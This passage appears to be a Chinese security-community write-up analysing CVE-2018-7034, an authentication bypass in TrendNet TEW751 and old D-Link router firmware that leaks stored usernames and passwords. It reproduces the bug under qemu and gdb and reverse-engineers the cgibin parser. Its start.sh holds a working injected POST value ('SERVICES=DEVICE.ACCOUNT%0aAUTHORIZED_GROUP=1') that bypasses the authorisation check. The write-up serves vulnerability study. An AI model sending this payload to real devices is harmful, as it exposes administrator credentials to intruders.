# D-Link 登录信息泄露（权限绕过）漏洞分析报告（CVE-2018-7034）-先知社区

> **来源**: https://xz.aliyun.com/news/18232  
> **文章ID**: 18232

---

### **前言**

漏洞编号`CVE-2018-7034`，影响`D-Link`和`TrendNet`的一些老设备。

通过网盘分享的文件：TEW751DR\_FW103B03.bin  
链接: <https://pan.baidu.com/s/1g37sSUnZQDQjpg_ABuGULg?pwd=xidp> 提取码: xidp

这里分析的是`TrendNet TEW751`的固件，此外`D-Link`的一些老设备，如`DIR645`，`DIR815`等也都受该漏洞影响。

### **基础工具配置**

复现环境 `Ubuntu 24.04.2 LTS`  


基础工具配置可以参考这篇文章中的配置: [DIR-815 栈溢出漏洞(CNVD-2013-11625)复现-先知社区](https://xz.aliyun.com/news/18079)

### **漏洞分析**

存在漏洞的地方为 `/squashfs-root/htdocs/web/getcfg.php`



这里通过 `$AUTHORIZED_GROUP` 变量判断用户权限  
而 `$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");` 中，`$GETCFG_SVC` 是通过 `POST` 传入的 `$_POST["SERVICES"]` 所以这里文件的加载是我们可控的，也就是我们可以控制 `/htdocs/webinc/getcfg/` 这个路径下的文件加载，这显然存在一个我们可以利用的地方，所以我们需要进入到 `else分支` 中，也就是说我们的 `$AUTHORIZED_GROUP` 变量应该 `大于等于0`

我们进入这个路径 `/htdocs/webinc/getcfg/` 看看有什么文件是我们可以利用的  
通过观察我们发现 `/htdocs/webinc/getcfg/DEVICE.ACCOUNT.xml.php` 这个文件



这段代码的作用是遍历系统路径`/device/account/entry`下的所有账户条目，并且使用echo输出，并且echo输出的条目包括`用户名和密码`，所以我们可通过这个加载文件泄露账号

但是，我们首先还是得先知道如何绕过全局变量 `$AUTHORIZED_GROUP >= 0` 的检查  
我们在 `squashfs-root` 文件夹中使用命令 `grep -ra 'AUTHORIZED_GROUP'` 来寻找都有哪些文件含有控制 `$AUTHORIZED_GROUP` 变量的功能

  
得到的结果如下:

```
htdocs/webinc/templates.php:	if (isfile("/htdocs/webinc/js/".$TEMP_MYNAME.".php")==1  && $AUTHORIZED_GROUP >= 0)
htdocs/webinc/templates.php:	var AUTH = new Authenticate(<?=$AUTHORIZED_GROUP?>, <?echo query("/device/session/timeout");?>);
htdocs/webinc/templates.php:	var PAGE = <? if (isfile("/htdocs/webinc/js/".$TEMP_MYNAME.".php")==1 && $AUTHORIZED_GROUP>=0) echo "new Page();"; else echo "null;"; ?>
htdocs/webinc/templates.php:	if (isfile("/htdocs/webinc/body/".$_GLOBALS["TEMP_MYNAME"].".php")==1 && $AUTHORIZED_GROUP>=0)
htdocs/webinc/templates.php:	if (isfile("/htdocs/webinc/body/".$_GLOBALS["TEMP_MYNAME"].".php")==1 && $AUTHORIZED_GROUP>=0)
htdocs/webinc/templates.php:	if (isfile("/htdocs/webinc/body/".$_GLOBALS["TEMP_MYNAME"].".php")==1 && $AUTHORIZED_GROUP>=0)
htdocs/webinc/templates.php:	if (isfile("/htdocs/webinc/body/".$_GLOBALS["TEMP_MYNAME"].".php")==1 && $AUTHORIZED_GROUP>=0)
htdocs/webinc/js/info.php:		//TRACE_error("AUTHORIZED_GROUP=".$_GET["AUTHORIZED_GROUP"]);
htdocs/web/dlnastate.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/check_stats.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/wandetect.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/wpsstate.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/session_act.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/log_clear.php:if ($AUTHORIZED_GROUP==0)
htdocs/web/wifi_stat.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/routing_stat.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/firmversion.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/js/postxml.js:					self.AuthorizedGroup = xml.Get("/report/AUTHORIZED_GROUP");
htdocs/web/wiz_freset.php:if(query("/runtime/device/devconfsize")=="0") $AUTHORIZED_GROUP = 0;
htdocs/web/DevInfo.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/getcfg.php:	if($AUTHORIZED_GROUP < 0)
htdocs/web/diagnostic.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/ddns_act.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/log_get.php:if ($AUTHORIZED_GROUP==0)
htdocs/web/sitesurvey.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/wpsacts.php:if ($AUTHORIZED_GROUP < 0)
htdocs/web/check.php:if ($AUTHORIZED_GROUP < 0)
htdocs/cgibin:	<AUTHORIZED_GROUP>%d</AUTHORIZED_GROUP>
htdocs/cgibin:application/audio/example/image/message/model/multipart/text/video/read_ct_videoread_ct_textread_ct_multipartread_ct_modelread_ct_messageread_ct_imageread_ct_exampleread_ct_audioread_ct_applicationSystem rebootUpgrade firmware successFail to write file!Image file is not acceptable. Please check download version is rightFail to get the file, please check the IP address and check the file name::ffff:Web login success from %sWeb login failure from %sWeb logout from %s_POST__FILES_N/A_FILETYPES__GET__SERVER_REQUEST_METHODHEADGETPOST/htdocs/web/info.php/info.phpFAILERR_REQ_TOO_LONGunsupported HTTP requestAUTHORIZED_GROUP=%dSESSION_UID=sobj_new() error!ERR_NO_FILEr+ERR_FOPEN_FAILsignature=_aLpHaERR_INVALID_SEAMAERR_SEAMA_META_TOO_LARGEERR_SEAMA_CHECKSUM_ERRERR_SEAMA_META_ERRnoheader=1type=type=firmwaretype=devconfdev=/dev/mtdblock/2/var/config.xml.gzdevconf put -f /var/config.xml.gz%lu/var/session/configsize/var/firmware.seama/var/session/imagesizeERR_INVALID_FILE/etc/config/image_signPELOTA_REPORT/dlcfg.cgiREPORT_METHODhttp://HTTP_HOSTSERVER_PORT80HTTP_REFERERDELAYERR_UNAUTHORIZED_SESSIONERR_READ_SIGN_FAILSUCCESS/var/run/fwseama.lockpreupdate:%d:event PREFWUPDATEERR_ANOTHER_FWUP_PROGRESS/etc/scripts/dlcfg_hlper.sh/htdocs/web/docs/config.binHTTContent-Disposition: attachment; filename="%s"
```

从这里可以看到有两个可以给 `$AUTHORIZED_GROUP` 赋值的地方，一个是在 `/htdocs/web/wiz_freset.php`，另一个是在 `/htdocs/cgibin` 本文我们利用的是 `cgibin`

但是下面我们先来看看 `wiz_freset.php`   
通过这里的注释我们知道它是`用于出厂默认设置`时的，所以我们暂时不考虑  


因此，我们需要逆向分析`cgibin`文件，进入 `main函数` 中  
由于这里的 `webserver` 运行的是`php`脚本，那么这个二进制文件中重点的就是处理 `php` 语言的部分，也就是`phpcgi`，我们进入 `phpcgi_main`



进入 `phpcgi_main` 之后我们分析一下下面这几个函数  


`sobj_new()` 的作用是创建一个结构体，用于存放之后程序解析出来的各个字段  


`sobj_add_string(v7, *(a2 + 4));` 的作用就是将 `*(a2 + 4)` 存储的内容放入到 `v7` 这个结构体中

下面编写shell脚本来使用qemu进行动态调试  
编写`start.sh`脚本

```
#!/bin/bash
# sudo ./start.sh

INPUT=$(python -c "print('SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1')")
LEN=$(echo $INPUT | wc -c)
PORT="1234"

if [ "$LEN" == "0" ] || [ "$INPUT" == "-h" ] || [ "$UID" != "0" ]
then
    echo -e "
usage: sudo $0
"
    exit 1
fi

cp $(which qemu-mipsel-static) ./qemu

echo "$INPUT" | chroot . ./qemu -0 "/phpcgi" \
    -E CONTENT_LENGTH=$LEN \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    -E REQUEST_METHOD="POST" \
    -E REQUEST_URI="/getcfg.php" \
    -E REMOTE_ADDR="127.0.0.1" \
    -g $PORT ./htdocs/cgibin "/phpcgi" "/phpcgi"  # 2>/dev/null

echo "run ok"
rm -f ./qemu
```

编写gdb脚本

```
# mygdb.sh

set architecture mips                                     
set follow-fork-mode child  
set detach-on-fork off                                    
file ./htdocs/cgibin
target remote 127.0.0.1:1234        
```

下面分别执行即可进入gdb界面进行调试

```
sudo ./start.sh
gdb-multiarch -x mygdb.sh
```

下面我们进入调试，在 `sobj_add_string` 函数处打上一个断点随后跟进到此处，这样我们就可以看到这里的几个参数，而它的第二个参数也就是 `*(a2 + 4)` 显示为 `phpcgi` 这个字符串，也就是说着在开头的 `sobj_add_string(v7, *(a2 + 4));` 它将 `phpcgi` 这个字符串写入了 `v7` 这个结构体中  


下面继续，可以看到下面 `27行-32行` 有一个 `for循环`

```
  for ( i = a3; *i; ++i )
  {
    sobj_add_string(v6, "_SERVER_");
    sobj_add_string(v6, *i);
    sobj_add_char(v6, 10);
  }
```

我们进入 `for循环`，看看变量 `v6` 的变化(下面是进入for循环但是还没有开始执行for循环的任何指令)  
根据图中信息 `v6` 的地址应该为 `0x438008`



下面我们直接跳过 `for ( i = a3; *i; ++i )` 来看结果  


从上面这张图中我们可以看到参数是以键值对的形式存储并且以换行符  分割

所以我们构造并传入一个 `AUTHORIZED_GROUP=1` 这样就可以在给 `AUTHORIZED_GROUP` 赋值的顶替掉程序原本想要赋值的值使用我们给的数据 `1`

下面我们来看 `33行-48行`   
`v9` 获取了 `REQUEST_METHOD` 的值  
随后判断是否使用 `HEAD` 或 `GET` 类型传参，如果是，则将 `sub_405CF8` 函数地址赋值给 `v11`   
如果使用的是 `POST` 传参那么就会将 `sub_405AC0` 函数地址赋值给 `v11`  
而显然我们使用的是 `POST` 传参方式，也就是说我们的 `v11` 是 `sub_405AC0` 函数地址

```
  v9 = getenv("REQUEST_METHOD");
  v10 = v9;
  if ( !v9 )
    goto LABEL_20;
  if ( !strcasecmp(v9, "HEAD") || !strcasecmp(v10, "GET") )
  {
    v11 = sub_405CF8;
    goto LABEL_13;
  }
  if ( strcasecmp(v10, "POST") )
  {
LABEL_20:
    v5 = -1;
    goto LABEL_21;
  }
  v11 = sub_405AC0;
```

下面会进入到 `cgibin_parse_request` 函数中  
这里获取了 `CONTENT_TYPE` 和 `CONTENT_LENGTH` 两个环境变量，所以我们的 `start.sh` 脚本中也需要设置对应的 `-E CONTENT_TYPE` 和 `-E CONTENT_LENGTH` 这里需要注意 `CONTENT_LENGTH` 得和我们输入的长度一致，否则可能发生错误  


再进入到 `parse_uri` ，可以看到开头获取了 `REQUEST_URI` 如果我们的 `start.sh` 脚本中没有设置 `-E REQUEST_URL`  
那么后续就会导致获取失败，从而导致程序异常退出  


继续往下看，将已知的变量修改一下名字，可以看到下面有一个 `strncasecmp` 要求让 `content_type` 和 `v14` 的相同才可以进入其中，否则则会执行 `return -1`  


我们在 `strncasecmp` 处下断点看到这里的 `v14` 是 `application/`   
我们设置 `application/` 可以顺利通过这个判断，进入到下面的 `return` 部分  


通过调试我们可以知道这里函数调用的地址实际上就是 `0x40445c`   


我们继续来看 `sub_40445c`   
这里又有一个判断 `a4` 是之前传入的 `&content_type[v12]`   
到了这里实际上就是 `application/` 后面的部分，所以我们完整的 `CONTENT_TYPE` 需要设置为 `application/x-www-form-urlencoded`  


继续跟进到 `sub_403A0C` 函数中，发现其中有一个 `read` 函数  
之后我们 `POST` 的请求就是使用这个 `read` 来读入的  


再继续进入到 `sub_403864` 函数,此函数的作用如下

```
int __fastcall sub_403864(_DWORD *a1, int a2, unsigned int a3)
{
  unsigned int v6; // $s1 - 字符遍历索引
  int v7; // $v0 - 临时变量
  int v8; // $v1 - 临时变量
  void (__fastcall *v9)(int, _DWORD *); // $t9 - 回调函数指针
  int v10; // $a0 - 回调函数参数
  int result; // $v0 - 函数返回值
  int v12; // $v1 - 当前字符值
  int v13; // $a1 - 解码前字符
  int v14; // $a0 - 存储对象指针
  char *v15; // $a1 - 当前字符指针
  _DWORD v16[4]; // [sp+18h] [-10h] BYREF - 回调参数数组

  // 第一部分：解析键值对数据
  if ( a2 )  // 检查数据指针是否有效
  {
    v6 = 0; // 初始化遍历索引
    if ( a3 ) // 检查数据长度
    {
      while ( 1 )
      {
        // 循环终止条件：遍历完成
        result = v6 < a3;
        if ( v6 >= a3 )
          return result;
        
        v15 = (a2 + v6);  // 当前字符地址
        v12 = *(a2 + v6); // 获取当前字符值
        
        // 状态机：0=解析键(key), 1=解析值(value)
        if ( *a1 ) // 当前状态：解析值(value)
        {
          v13 = *v15; // 取字符原始值
          
          // 分隔符检测：& 符号（键值对分隔符）
          if ( v12 == 38 ) // 38 是 '&' 的 ASCII 值
          {
            // 递归调用自身处理当前键值对
            sub_403864(a1, 0, 0);
            goto LABEL_15; // 跳过字符处理
          }
          
          // 将字符添加到值缓冲区
          v14 = a1[2]; // 获取值缓冲区对象指针
        }
        else // 当前状态：解析键(key)
        {
          v13 = *v15; // 取字符原始值
          
          // 分隔符检测：= 符号（键值分隔符）
          if ( v12 == 61 ) // 61 是 '=' 的 ASCII 值
          {
            *a1 = 1; // 切换状态到值解析
            goto LABEL_15; // 跳过字符处理
          }
          
          // 将字符添加到键缓冲区
          v14 = a1[1]; // 获取键缓冲区对象指针
        }
        
        // 核心操作：将当前字符添加到缓冲区
        sobj_add_char(v14, v13); // 字符串缓冲区追加字符
        
        LABEL_15:
        ++v6; // 移动到下一个字符
      }
    }
  }
  
  // 第二部分：键值对处理回调
  if ( *a1 ) // 检查状态是否处于值解析中
  {
    // 检查键缓冲区是否有数据
    if ( !sobj_empty(a1[1]) ) 
    {
      // URI解码：对键和值进行解码处理
      sobj_unescape_uri(a1[1]); // 解码键
      sobj_unescape_uri(a1[2]); // 解码值
      
      // 准备回调函数参数
      v7 = a1[1]; // 键字符串指针
      v8 = a1[2]; // 值字符串指针
      v9 = a1[3]; // 回调函数指针
      v10 = a1[4]; // 用户上下文数据
      
      // 构建回调参数数组
      v16[0] = 0;  // 保留位/标志位
      v16[1] = v7; // 键
      v16[2] = v8; // 值
      
      // 执行回调：处理解析出的键值对
      v9(v10, v16); // 调用函数
    }
  }
  
  // 第三部分：资源清理
  sobj_free(a1[1]);       // 释放键缓冲区
  result = sobj_free(a1[2]); // 释放值缓冲区
  *a1 = 0;                // 重置解析状态
  
  return result; // 返回处理结果
}
```

调试后我们知道我们会进入到 `else分支` 然后会执行 `v9(v10, v16);` 由 `gdb` 调试可以知道，它是跳转到 `0x405ac0`  


那么我们进入到 `sub_405AC0` 函数  
